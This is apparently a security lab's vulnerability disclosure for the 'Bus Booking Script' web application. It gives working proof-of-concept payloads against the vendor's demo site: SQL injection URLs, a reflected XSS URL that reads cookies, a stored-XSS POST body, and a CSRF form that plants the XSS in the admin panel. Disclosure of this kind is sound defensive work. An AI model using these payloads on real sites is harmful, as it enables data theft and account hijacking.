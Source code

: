 ### Bus Booking Script- the lastest version - SQL Injection/XSS/CSRF

#### ADLab of Venustech


Well,  when I pentest the official demo site of Bus Booking Script, I found some vulnerabilities here.


#### SQL Injection:

Because of the waf, I tried to write a script to get sensitive sql data.
As you can see here, we can obtain the current database user and the mysql version or more sensitive data now!
For example:
```
http://travelbookingscript.com/demo/newbusbooking/admin/view_seatseller.php?sp_id=47 and length(version())<12--+-
http://travelbookingscript.com/demo/newbusbooking/admin/view_member.php?memid=1%20order%20by%2028--+-
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/sqli1.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/sqli2.png)



#### XSS:

Here I found some xss, inclue stored-xss and reflect-xss：

##### Reflect-Xss
```
http://travelbookingscript.com/demo/newbusbooking/results.php?triptype=1&ter_from=123&tag=123&datepicker=08-01-2018123%27%22%3E%3Cimg%20src=x%20onerror=%22console.log(document.cookie)%22%3E&datepicker1=&type=bus
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/xss1.png)

##### Stored-Xss

http://travelbookingscript.com/demo/newbusbooking/admin/new_master.php

POST parameters:
```
flag=1&spname=test4x&spemail=test%40gmail.com'"><img src=x onerror=alert(123)><'"&txtaddress1=test&spcity=test&spmobileno1=1314411331&comm_sp=51&spcmnts=test4x&submitnewcompany=Register+%3E%3E
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/xss2.png)

This stored-xss vulnerability need to be combined with csrf attack.

#### CSRF

POC is here , for example, we can add a xss content to the admin panel:

```
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://travelbookingscript.com/demo/newbusbooking/admin/new_master.php" method="POST">
      <input type="hidden" name="flag" value="1" />
      <input type="hidden" name="spname" value="test4x" />
      <input type="hidden" name="spemail" value="test&#64;gmail&#46;com&apos;&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;123&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="txtaddress1" value="test" />
      <input type="hidden" name="spcity" value="test" />
      <input type="hidden" name="spmobileno1" value="1314411331" />
      <input type="hidden" name="comm&#95;sp" value="51" />
      <input type="hidden" name="spcmnts" value="test4x" />
      <input type="hidden" name="submitnewcompany" value="Register&#32;&gt;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Bus-Booking-Script/csrf.png)










